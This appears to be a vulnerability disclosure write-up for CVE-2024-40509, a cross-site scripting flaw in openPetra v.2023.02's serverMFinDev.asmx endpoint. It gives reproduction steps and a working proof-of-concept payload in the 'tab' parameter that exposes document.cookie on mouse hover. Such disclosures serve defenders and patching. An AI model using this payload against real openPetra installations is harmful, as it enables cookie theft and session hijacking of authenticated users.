 # CVE-2024-40509
# Cross Site Scripting vulnerability in openPetra v.2023.02 via the serverMFinDev.asmx function.

**Description**: An unauthenticated user can steal cookies from authenticated user, by exploiting a XSS in openPetra v.2023.02 via the serverMFinDev.asmx function.

**Vulnerable Product Version**: openPetra v.2023.02  
**CVE Author**: Jansen Moreira 
**Date**: 13/07/2024  
**CVE**: CVE-2024-40509  
**CVE Link**: https://www.cve.org/CVERecord?id=CVE-2024-40509  
**NVD Link**: https://nvd.nist.gov/vuln/detail/CVE-2024-40509     
**Tenable Link**: https://www.tenable.com/cve/CVE-2024-40509  
**Confirmed on**: 13/07/2024                               
**Tested on**: Linux  
### Steps to reproduce:  
1- Access the home Page  
2- Use the following path and add the xss payload in the tab parametrer. EX.:  ```http://target.com/api/serverMFinDev.asmx?bnd=TMFinDevWebServiceSoap&op=TFinDevWebConnector_Dummy&page=op&tab=x"```       
3- Hover the mouse over the left index item to trigger the XSS  

**Payloads**:  
tab: x" onmouseover=alert(document.cookie) x="


Discoverer(s)/Credits:
Jansen Moreira 
